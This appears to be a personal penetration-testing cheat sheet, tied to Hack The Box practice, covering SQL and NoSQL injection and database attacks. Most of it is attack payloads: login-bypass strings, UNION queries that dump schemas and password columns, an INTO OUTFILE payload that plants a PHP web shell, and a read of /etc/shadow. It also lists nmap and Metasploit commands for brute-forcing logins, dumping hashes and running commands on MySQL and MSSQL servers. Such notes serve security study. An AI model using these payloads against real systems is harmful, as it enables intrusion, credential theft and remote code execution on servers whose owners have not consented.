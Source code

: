 SQL Injection is an attack in which malicious SQL statements are injected into SQL
easy to avoid

# Common SQL Verbs
SQL statment begin with verbs
SELECT
INSERT
DELETE
UPDATE
DROP
UNION


```mysql
SHOW COLUMNS FROM database_name. table_name; # show columns
```

# NoSql commands
https://blog.e-zest.com/basic-commands-for-mongodb


## Mongodb


downloading the following tar archive file
```
curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz
```

We must then extract the contents of the tar archive file using the tar utility.

```
tar xvf mongodb-linux-x86_64-3.4.7.tgz
```

Navigate to the location where the mongo binary is present.

```
cd mongodb-linux-x86_64-3.4.7/bin
```
Let's now try to connect to the MongoDB server running on the remote host as an anonymous user.


```bash
mongo -p -u USER DATABASE




show dbs;
use # DATABASE NAME;
show collections;
db.COLLECTION_NAME.find().pretty;


# More commands
db.tasks.insert({}) # create 
db.tasks.find() # run 

```

```sql
-- Nosql injection
`[$ne]=1`, `{$gt: ''}`
` ||  ( COMMAND ) || `

` ||  (select sql from sqlite_master ) || `
select * from TABLE 
select COLUMN from TABBLE


' || 1==1 
' || 1==1%00 -- login bypass

```


# Additional to [[SQL-Injection (SQLi)]]
from [[00 Progress/Boxes/HTB/Linux/Shared/01 Exploit]]

change # to the values


1- union select 1,(select group_concat(schema_name) from INFORMATION_SCHEMA.SCHEMATA,3-- -

2- union select 1,(select group_concat(TABBLE_NAME,':',COLUMN_NAME) from INFORMATION_SCHEMA.COLUMNS where TABLE_SCHEMA like '# DATABASE NAME '),3-- -

3- union select 1,(select group_concat(# username ,':',# password) from # user  ,3-- -



# RCE WITH SQL injection

**Description**: 
After finding sql injection with union technique (POST REQUEST) we can upload a reverse shell on the target machine and access it through the webpage see 
**Reference:** 
https://youtu.be/UqoVQ4dbYaI?t=522

# If we have file perm
```sql

' union select "<?php SYSTEM($_REQUEST['cmd']) ?>" INTO OUTFILE '/var/www/html/nshell.php'-- - '

-- uploading a php shell named shell.php with cmd parameter for RCE and saved to /var/www/html/nshell.php 


select load_file("/etc/shadow"); -- read perm
```


# Nmap

```bash

nmap -p3306 --script=mysql-empty-password # check for users with empty password

nmap -p3306 --script=mysql-info

nmap -p3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''" #bruteforce check for empty pass

nmap -p3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"

nmap -p3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''"

nmap -p3306 --script=mysql-dump-hashes --script-args="username='root',password=''"
# Hash dump


# WINDOWS

nmap -p1433 --script ms-sql-info # more info

nmap -p1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433(PORT)

nmap -p1433 --script ms-sql-brute --script-args userdb=WORDLIST,passdb=WORDLIST #Brute force

nmap -p1433 --script ms-sql-empty-password #Brute force empty password

nmap -p1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=admin,ms-sql-query.query="QUERY HERE" 
# Send Query

nmap -p1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=admin # Dump Hashes

nmap -p1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=admin,ms-xp-cmdshell.cmd="COMMAND" # RCE 

```


# Metasploit

```ruby








# WINDOWS

use auxiliary/scanner/mssql/mssql_login # brute force login

use auxiliary/admin/mssql/mssql_enum

use auxiliary/admin/mssql/mssql_enum_sql_logins

use auxiliary/admin/mssql/mssql_exec # RCE 

use auxiliary/admin/mssql/mssql_enum_domain_accounts 


use auxiliary/scanner/mssql/mssql_hashdump


# Mysql

use auxiliary/scanner/mysql/mysql_writable_dirs # check for writable dir
use auxiliary/scanner/mysql/mysql_hashdump # dump hashes
-   auxiliary/admin/mysql/mysql_enum # enum mysql database with creds
-   auxiliary/admin/mysql/mysql_sql # Send queries to mysql database 
-   auxiliary/scanner/mysql/mysql_file_enum
-   auxiliary/scanner/mysql/mysql_hashdump
-   auxiliary/scanner/mysql/mysql_login # brute force login
-   auxiliary/scanner/mysql/mysql_schemadump # enum mysql schema
-   auxiliary/scanner/mysql/mysql_version # checks for mysql version

```


